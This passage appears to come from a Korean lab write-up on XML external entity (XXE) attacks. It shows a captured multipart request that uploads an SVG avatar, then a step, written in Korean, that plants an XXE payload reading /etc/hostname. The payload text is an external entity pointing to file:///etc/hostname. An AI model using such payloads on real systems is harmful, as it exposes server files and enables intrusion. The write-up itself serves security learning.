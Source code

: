 ```http
------WebKitFormBoundaryKrAtIy6HHykIFo3u
Content-Disposition: form-data; name="comment"

Yes!
------WebKitFormBoundaryKrAtIy6HHykIFo3u
Content-Disposition: form-data; name="name"

moon
------WebKitFormBoundaryKrAtIy6HHykIFo3u
Content-Disposition: form-data; name="avatar"; filename="smile2.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="107px" height="77px" viewBox="0 0 107 77" enable-background="new 0 0 107 77" xml:space="preserve">  <image id="image0" width="107" height="77" x="0" y="0"
    href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAGsAAABNCAAAAACEIcX7AAAABGdBTUEAALGPC/xhBQAAACBjSFJN
AAB6JgAAgIQAAPoAAACA6AAAdTAAAOpgAAA6mAAAF3CculE8AAAAAmJLR0QA/4ePzL8AAAAJcEhZ
cwAADsMAAA7DAcdvqGQAAAAHdElNRQfoCBAAJgcLEDmWAAACIElEQVRo3u2XMXaDMBBEx6lUJh0l
voGPkJLSJSVdSMcNlI4jkM65gUtyIx9B7jYFFhikFZLBfn552s4Y798ZYTHaEB5WL49DRVZkRVZk
RdYTsn63m+33WjBy1SEFAKQHWqNcrDbVA4k7szSpKABIt/S0WcRqXwEgV0RU8bCDlu5DY1kJAJRE
RKQybs3k1cLz0udYsidpmDBgnahckSq8YAyrAZAPH1VhgUkAyNQwzRzMzjqJvsulauNpbPr19IXZ
WRWwU+NLNYCRsGQ8jgfMyjoJ4Di9KMbCJIDROCoDUAezSmBnXBwLmyyohjn/9DaWhEXWRFgyXVAi
UlOb51kSQGa5tb7aPZupg/00DpjJamAZWbfS65EYDuppHC6arIRDUdV3aq2yLA+rm9UwbYhICW1i
yr2MhEuY8ZPU6o4eu+znL5k7HM+9wZLYK7q9Kocw04rTAlLnMycMQZ2WCdusfV4+v53B9Fw9swmJ
kvlqdV2OeqYs+g9Zv9vtz7ow/p+SAsIrY/qWQ9cHcP78eowuqgGgXLZnXZdzj+oyaO3u0L4f1mCR
2gNzSSzxPsXM7b3H3RwM8N2/Z++by5jNiqzLKaXiHpHE8R4PZnUw9oQFNp7cwroceexOBljo+14+
7hhtARb6ZwC7kzLAwoC8oZ0ceJdzpXeHoGwz4IbK/BNeYI4yaHlAmLwhsw28EBDdIbM56kkyQGRF
VmRFVmRF1tOy/gCWBPR5Tmpe7AAAACV0RVh0ZGF0ZTpjcmVhdGUAMjAyNC0wOC0xNlQwMDozODow
NyswMDowMMI5UqsAAAAldEVYdGRhdGU6bW9kaWZ5ADIwMjQtMDgtMTZUMDA6Mzg6MDcrMDA6MDCz
ZOoXAAAAAElFTkSuQmCC" />
</svg>

------WebKitFormBoundaryKrAtIy6HHykIFo3u
Content-Disposition: form-data; name="email"

ee@test.com
------WebKitFormBoundaryKrAtIy6HHykIFo3u
Content-Disposition: form-data; name="website"


------WebKitFormBoundaryKrAtIy6HHykIFo3u--

```

7. SVG안에 XXE공격 페이로드를 심는다. /etc/hotname의 값을 보는 페이로드를 사용한다. 

```xml
<!DOCTYPE test [<!ENTITY foo SYSTEM "file:///etc/hostname"> ]>
<stockCheck>
    <productId>&foo;</productId>
    <storeId>1</storeId>
</stockCheck>
```
